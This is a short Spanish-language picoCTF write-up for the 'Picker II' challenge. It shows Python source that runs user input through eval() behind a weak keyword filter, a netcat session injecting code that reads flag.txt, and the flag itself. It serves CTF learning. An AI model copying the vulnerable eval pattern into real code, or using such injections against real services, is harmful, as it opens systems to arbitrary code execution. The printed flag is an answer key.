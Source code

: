 # Retos picoCTF

# Level Picker II

## Objetivo
Can you figure out how this program works to get the flag?
Connect to the program with netcat:
$ nc saturn.picoctf.net 58021
The program's source code can be downloaded here.
## Solucion
Este reto fue más complicado, ya que al inspeccionar el codigo se ve que esta parcheado la vulnerabilidad del reto pasado, pero la funcion eval() fue la vulnerabiilidad que buscamos, dando el resultado de los comandos que ingresemos.

´´´
┌──(kali㉿kali)-[~/Downloads/PickerII]
└─$ ls
picker-II.py
                                                                            
┌──(kali㉿kali)-[~/Downloads/PickerII]
└─$ cat picker-II.py 

import sys



def getRandomNumber():
  print(4)  # Chosen by fair die roll.
            # Guaranteed to be random.
            # (See XKCD)

def exit():
  sys.exit(0)
  
def esoteric1():
  esoteric = \
  '''
  int query_apm_bios(void)
{
        struct biosregs ireg, oreg;

        /* APM BIOS installation check */
        initregs(&ireg);
        ireg.ah = 0x53;
        intcall(0x15, &ireg, &oreg);

        if (oreg.flags & X86_EFLAGS_CF)
                return -1;              /* No APM BIOS */

        if (oreg.bx != 0x504d)          /* "PM" signature */
                return -1;

        if (!(oreg.cx & 0x02))          /* 32 bits supported? */
                return -1;

        /* Disconnect first, just in case */
        ireg.al = 0x04;
        intcall(0x15, &ireg, NULL);

        /* 32-bit connect */
        ireg.al = 0x03;
        intcall(0x15, &ireg, &oreg);

        boot_params.apm_bios_info.cseg        = oreg.ax;
        boot_params.apm_bios_info.offset      = oreg.ebx;
        boot_params.apm_bios_info.cseg_16     = oreg.cx;
        boot_params.apm_bios_info.dseg        = oreg.dx;
        boot_params.apm_bios_info.cseg_len    = oreg.si;
        boot_params.apm_bios_info.cseg_16_len = oreg.hsi;
        boot_params.apm_bios_info.dseg_len    = oreg.di;

        if (oreg.flags & X86_EFLAGS_CF)
                return -1;

        /* Redo the installation check as the 32-bit connect;
           some BIOSes return different flags this way... */

        ireg.al = 0x00;
        intcall(0x15, &ireg, &oreg);

        if ((oreg.eflags & X86_EFLAGS_CF) || oreg.bx != 0x504d) {
                /* Failure with 32-bit connect, try to disconnect and ignore */
                ireg.al = 0x04;
                intcall(0x15, &ireg, NULL);
                return -1;
        }

        boot_params.apm_bios_info.version = oreg.ax;
        boot_params.apm_bios_info.flags   = oreg.cx;
        return 0;
}
  '''
  print(esoteric)


def win():
  # This line will not work locally unless you create your own 'flag.txt' in
  #   the same directory as this script
  flag = open('flag.txt', 'r').read()
  #flag = flag[:-1]
  flag = flag.strip()
  str_flag = ''
  for c in flag:
    str_flag += str(hex(ord(c))) + ' '
  print(str_flag)
  
  
def esoteric2():
  esoteric = \
  '''
#include "boot.h"

#define MAX_8042_LOOPS  100000
#define MAX_8042_FF     32

static int empty_8042(void)
{
        u8 status;
        int loops = MAX_8042_LOOPS;
        int ffs   = MAX_8042_FF;

        while (loops--) {
                io_delay();

                status = inb(0x64);
                if (status == 0xff) {
                        /* FF is a plausible, but very unlikely status */
                        if (!--ffs)
                                return -1; /* Assume no KBC present */
                }
                if (status & 1) {
                        /* Read and discard input data */
                        io_delay();
                        (void)inb(0x60);
                } else if (!(status & 2)) {
                        /* Buffers empty, finished! */
                        return 0;
                }
        }

        return -1;
}

/* Returns nonzero if the A20 line is enabled.  The memory address
   used as a test is the int $0x80 vector, which should be safe. */

#define A20_TEST_ADDR   (4*0x80)
#define A20_TEST_SHORT  32
#define A20_TEST_LONG   2097152 /* 2^21 */

static int a20_test(int loops)
{
        int ok = 0;
        int saved, ctr;

        set_fs(0x0000);
        set_gs(0xffff);

        saved = ctr = rdfs32(A20_TEST_ADDR);

        while (loops--) {
                wrfs32(++ctr, A20_TEST_ADDR);
                io_delay();     /* Serialize and make delay constant */
                ok = rdgs32(A20_TEST_ADDR+0x10) ^ ctr;
                if (ok)
                        break;
        }

        wrfs32(saved, A20_TEST_ADDR);
        return ok;
}

/* Quick test to see if A20 is already enabled */
static int a20_test_short(void)
{
        return a20_test(A20_TEST_SHORT);
}
  '''
  print(esoteric)


def filter(user_input):
  if 'win' in user_input:
    return False
  return True


while(True):
  try:
    user_input = input('==> ')
    if( filter(user_input) ):
      eval(user_input + '()')
    else:
      print('Illegal input')
  except Exception as e:
    print(e)
    break
                                                                            
┌──(kali㉿kali)-[~/Downloads/PickerII]
└─$ nc saturn.picoctf.net 58021
==> win
Illegal input
==> print(open('flag.txt', 'r').read()
unexpected EOF while parsing (<string>, line 1)
                                                                            
┌──(kali㉿kali)-[~/Downloads/PickerII]
└─$ nc saturn.picoctf.net 58021
==> print(open('flag.txt', 'r').read()
unexpected EOF while parsing (<string>, line 1)
                                                                            
┌──(kali㉿kali)-[~/Downloads/PickerII]
└─$ nc saturn.picoctf.net 58021 
==> print(open('flag.txt','r').read())
picoCTF{f1l73r5_f41l_c0d3_r3f4c70r_m1gh7_5ucc33d_b924e8e5}
'NoneType' object is not callable
´´´

## Referencias


